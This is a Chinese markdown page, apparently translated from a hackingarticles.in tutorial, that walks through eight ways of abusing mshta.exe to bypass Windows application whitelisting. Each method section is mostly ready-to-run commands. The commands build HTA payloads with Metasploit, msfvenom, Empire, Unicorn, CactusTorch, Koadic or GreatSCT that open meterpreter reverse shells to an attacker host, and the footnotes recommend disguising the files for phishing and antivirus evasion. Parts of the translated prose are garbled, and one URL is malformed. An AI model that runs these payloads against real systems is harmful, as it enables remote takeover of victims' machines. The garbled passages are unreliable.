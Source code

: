## 使用mshta.exe绕过应用程序白名单（多种方法）[^1]

### **介绍** [^2]

### **重要性** [^3]

### **方法**

- Metasploit [^4]

  - ```bash
    use exploit/windows/misc/hta_server
    msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
    msf exploit(windows/misc/hta_server) > exploit
    sessions   #查看建立的会话
    ```

  - `mshta.exe http://192.168.1.109:8080/pKz4Kk059Nq9.hta` [^5]

- Setoolkit

  - ```bash
    setoolkit
    1
    2
    8
    2
    [LHOST]：192.168.1.110
    3
    # 键入3后按Enter键，进程将启动，您将拥有处理程序（多/处理程序）。现在将您的恶意IP转换为有点链接，当您与他们共享此链接时，这将显示给受害者更真实。
    # 当受害者浏览恶意链接时，该文件将被保存并在被保存后自动执行到受害者的PC中。此时就会建立一个会话
    ```

- Magic unicorn [^6]

  - ```bash
    python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.109 1234 hta
    cd hta_attack/
    ls Launcher.hta
    python -m SimpleHTTPServer 80
    mshta.exe http://192.168.1.109/Launcher.hta #目标主机cmd执行
    sessions
    ```

- Msfvenom

  - ```bash
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f hta-psh > shell.hta
    python -m SimpleHTTPServer 80
    mshta.exe http:192.168.1.109/shell.hta #目标主机cmd执行
    ```

  - ```bash
    use exploit/multi/handler
    msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf exploit(multi/handler) > set lhost 192.168.1.109
    msf exploit(multi/handler) > set lport 1234
    msf exploit(multi/handler) > exploit
    sysinfo
    ```

- Empire

  - ```bash
    ./reset.sh
    listeners
    uselistener http
    set Host http://192.168.1.109
    set port 80
    execute
    back
    usestager windows/hta
    set Listener http
    set OutFile /root/Desktop/1.hta
    execute
    mshta.exe http://192.168.1.109:8080/1.hta #目标主机cmd执行
    ```

- CactusTorch [^7]

  - ```bash
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f raw > 1.bin
    cat 1.bin | base64 -w 0 #进行base64加密
    ls -la
    ./CACTUSTORCH.hta
    [code]="粘贴base64加密过得shellcode"
    mshta.exe http://192.168.1.109/CACTUSTORCH.hta #目标主机cmd执行
    ```

  - ```bash
    use exploit/multi/handler
    msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf exploit(multi/handler) > set lhost 192.168.1.109
    msf exploit(multi/handler) > set lport 1234
    msf exploit(multi/handler) > exploit
    ```

- Koadic [^8]

  - ```bash
    info
    set rsvhost 192.168.1.109
    set endpoint sales
    run
    mshta.exe http://192.168.1.107:9999/sales #目标主机cmd执行
    zombies # 查看建立的会话
    zombies 0 
    ```

- Great SCT [^9]

  - ```bash
    use Bypass
    list
    use mshta/shellcode_inject/base64_migrate.py
    generate
    1
    [enter]:windows/meterpreter/reverse_tcp
    [lhost]:192.168.1.109
    [lport]:4321
    (name):payload
    # 输出两个文件：payload.hta; payload.rc
    python -m SimpleHTTPServer 80
    mshta.exe http://192.168.1.109/payload.hta #目标主机cmd执行
    msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
    ```

### 结论 [^10]

[原文](https://www.hackingarticles.in/bypass-application-whitelisting-using-mshta-exe-multiple-methods/)

---

[^1]: HTA是一种有用且重要的攻击，因为它可以绕过应用程序白名单。即如何**使用mshta.exe绕过Applocker策略**
[^2]: 很长一段时间以来，HTA文件一直被网络攻击或恶意软件的下载者用作驱动程序的一部分。这包括做一些基本的工作，比如转移移动客户端，以及教育网站，但是，没有移动支持。HTA文件在网络安全领域内广为人知，从红组和蓝组的角度来看，它是绕过应用程序白名单的“复古”方法之一。mshta.exe运行Microsoft HTML应用程序主机，该主机是负责运行HTA（HTML应用程序）文件的Windows OS实用程序。我们可以运行javascript或Visual的HTML文件。您可以使用Microsoft MSHTA.exe工具解释这些文件。
[^3]: 最后，利用htaccess文件或其他策略转移基于浏览器的排序将有助于提高胜利率。利用HTA文件进行基于网络的攻击。HTA文件中有很多适应性; 你将有效地使它看起来像一个Adobe更新程序，每个用户的安全记录，以及许多其他的东西。此外，通过HTTPS使HTA文件限制不使用几种SSL拦截/终止的公司的发现率也是有用的。HTA记录有助于绕过防病毒，因为它们仍未被很好地识别。最后但并非最不重要的是，HTA也可用于网络钓鱼，取代旧的Java Applet攻击。
[^4]: Metasploit包含“HTA Web Server”模块，可生成恶意hta文件。此模块托管HTML应用程序（HTA），打开时将通过Powershell运行有效负载。当用户导航到HTA文件时，在执行有效负载之前，IE将提示他们两次
[^5]: 一旦漏洞被执行，它将为您提供扩展名为`.hta`的URL链接。同时，Metasploit将启动允许您共享文件的服务器。此链接您还必须在受害者的PC上运行
[^6]: 它是一个用户友好的工具，它允许我们通过将shellcode直接注入内存来执行HTA攻击。[项目地址](https://github.com/trustedsec/unicorn)
[^7]: [项目地址](https://github.com/mdsecactivebreach/CACTUSTORCH) Cactustorch is a framework for javascript and VBScript shellcode launcher.
[^8]: Koadic, or COM Command & Control, is a Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire.[more link](https://www.hackingarticles.in/koadic-com-command-control-framework)
[^9]: GreatSCT is a tool that allows you to use Metasploit exploits and lets it bypass most anti-viruses. [项目地址](https://github.com/GreatSCT/GreatSCT)
[^10]: So basically, this type of attack is a simple HTA attack provide full access to the remote attacker. An attacker can create a malicious application for the Windows operating system using web technologies to clone a site. In a nutshell, it performs PowerShell injection through HTA files which can be used for Windows-based PowerShell exploitation through the browser. And the above are the methods used for the attack. As they say, if one door closes another opens; therefore when the same attack is learned through different ways are often convenient.